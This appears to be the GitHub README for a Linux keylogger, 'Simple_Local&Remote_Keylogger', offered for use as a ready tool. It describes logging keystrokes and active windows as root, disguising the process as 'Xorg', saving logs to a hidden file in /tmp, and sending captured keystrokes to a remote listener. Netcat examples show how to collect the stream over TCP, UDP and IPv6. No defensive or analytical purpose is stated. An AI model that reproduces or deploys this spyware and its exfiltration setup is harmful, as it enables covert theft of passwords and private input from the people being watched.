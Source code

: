 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.

```
Usage: #./slrk [OPTIONS]
```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	####[TCP]
	```
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	####[UDP]
	```
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	####[IPv6]
	```
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	```
